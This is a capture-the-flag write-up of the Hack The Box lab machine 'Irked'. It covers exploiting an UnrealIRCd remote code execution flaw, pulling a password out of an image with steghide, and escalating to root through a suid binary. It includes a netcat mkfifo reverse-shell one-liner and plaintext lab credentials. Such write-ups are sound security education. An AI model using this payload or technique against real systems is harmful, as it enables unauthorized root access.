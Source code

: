 ```yaml
---
layout: post
title: Hack The Box - Irked
categories: hack-the-box
tags: [Linux, Steganography, Web, ssh, Reverse Engineering, Binary Exploitation]
image: /hackthebox/irked/0.png
---
```

<hr>
### Quick Summary
#### Hey guys, today Irked retired and here's my write-up about it. It was an easy straightforward machine, no rabbit holes and such things. To get an initial shell on the box we will exploit an RCE vulnerable irc server called `UnrealIRCd`. After getting a shell we will find a backup file which has a password. We will use that password to get a hidden text file from an image (steg). That text file contains another password which we will use to get ssh access as another user. Finally for privilege escalation there is an `suid` binary that executes a file, and we control that file so we can get a reverse shell as root. It's a linux box and its ip is `10.10.10.117`. I added it to `/etc/hosts` as `irked.htb`. Let's jump right in !
![](/images/hackthebox/irked/0.png)
<hr>
### Nmap
#### As always we will start with nmap to scan for open ports and services :
`nmap -sV -sT -sC irked.htb`
![](/images/hackthebox/irked/1.png)
#### There is ssh running on port 22 and http running on port 80. Let's take a look at http.
<br>
<hr>
### HTTP Initial Enumeration
![](/images/hackthebox/irked/2.png)
#### There is only that image and a message saying : `IRC is almost working!`, Source also has nothing interesting :
![](/images/hackthebox/irked/3.png)
#### We have a hint which is irc, let's check that. If we didn't find anything then we will continue with http.
<br>
<hr>
### IRC
#### I searched for irc and found [here](https://en.wikipedia.org/wiki/Internet_Relay_Chat#Technical_information) That if there is an irc server running on the machine, then probably it will be in the port range from 6000 to 7000. So I ran another nmap scan :
`nmap -p 6000-7000 -sV -sT -sC irked.htb`
![](/images/hackthebox/irked/4.png)
#### There is an irc server running on port 6697 called `UnrealIRCd`. There are some known vulnerabilities for `UnrealIRCd`, One of them is a Remote Code Execution and there is a metasploit module for it :
![](/images/hackthebox/irked/5.png)
#### Let's check if the server is vulnerable to it.
![](/images/hackthebox/irked/6.png)
<br>
<br>
![](/images/hackthebox/irked/7.png)
#### It worked and we got a shell as `ircd` :
![](/images/hackthebox/irked/8.png)
<hr>
### Steg in `irked.jpg`, SSH as `djmardov`
#### There are two users on the box : `ircd` and `djmardov`. I checked `/home/ircd` and there was nothing interesting. In `/home/djmardov` I didn't find `user.txt` :
![](/images/hackthebox/irked/9.png)
#### I tried to go into `.ssh` but I got `Permission denied` :
![](/images/hackthebox/irked/10.png)
#### I checked other directories like `Desktop`, `Downloads`, `Documents` etc... And in `Documents` I found `user.txt` and a file called `.backup` :
![](/images/hackthebox/irked/11.png)
<br>
<br>
`cat .backup`
![](/images/hackthebox/irked/12.png)
```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```
#### It gives us a hint about some steg backup, we also get something that looks like a password : `UPupDOWNdownLRlrBAbaSSss`. But where will we use that password ? Remember the image we saw earlier on that apache server ?
![](/images/hackthebox/irked/2.png)
<br>
<br>
![](/images/hackthebox/irked/3.png)
#### I downloaded it then used `steghide` to check if there is any hidden file.
#### Note : I have a list for some steganography tools, If you are not familiar with steg you can check it [here](/lists/stego).
`wget http://irked.htb/irked.jpg`
![](/images/hackthebox/irked/13.png)
<br>
<br>
`steghide info irked.jpg`
![](/images/hackthebox/irked/14.png)
#### There is a hidden text file called `pass.txt`, Let's extract it :
`steghide extract -sf irked.jpg`
![](/images/hackthebox/irked/15.png)
<br>
<br>
`cat pass.txt`
![](/images/hackthebox/irked/16.png)
#### We got the password : `Kab6h+m+bbp2J:HG`, let's try to login as `djmardov` :
![](/images/hackthebox/irked/17.png)
#### We owned user !
<br>
<hr>
### Exploiting `viewuser`, Privilege Escalation to `root`
#### After some enumeration, I searched for `suid` binaries and in `/usr/bin` I found a binary called `viewuser`.
`find /usr/bin/ -perm -4000`
![](/images/hackthebox/irked/18.png)
#### It seems interesting so I decided to check it.
`viewuser`
![](/images/hackthebox/irked/19.png)
#### It shows logged in users, but we don't care about that. The only thing we care about is the last line : `/tmp/listusers: 1: /tmp/listusers: djmardov: not found`. It seems like it was trying to do something with the file `/tmp/listusers` which doesn't exist. I downloaded `viewuser` to try some stuff :
`scp djmardov@irked.htb:/usr/bin/viewuser ./`
![](/images/hackthebox/irked/20.png)
#### When I did `ltrace` on the binary I found that it executes `/tmp/listusers` :
![](/images/hackthebox/irked/21.png)
#### And since this binary runs as root, then it also executes `/tmp/listusers` as root. So we can simply get a reverse shell by putting the payload in `/tmp/listusers`, Then after running the binary again it should execute the payload.
`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f" > /tmp/listusers`
![](/images/hackthebox/irked/22.png)
#### Everything is fine, let's check our listener :
![](/images/hackthebox/irked/23.png)
<br>
<br>
![](/images/hackthebox/irked/24.png)
#### Now we own root ! 
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - Teacher](/hack-the-box/teacher/)
#### Next Hack The Box write-up : [Hack The Box - BigHead](/hack-the-box/bighead/)
<hr>
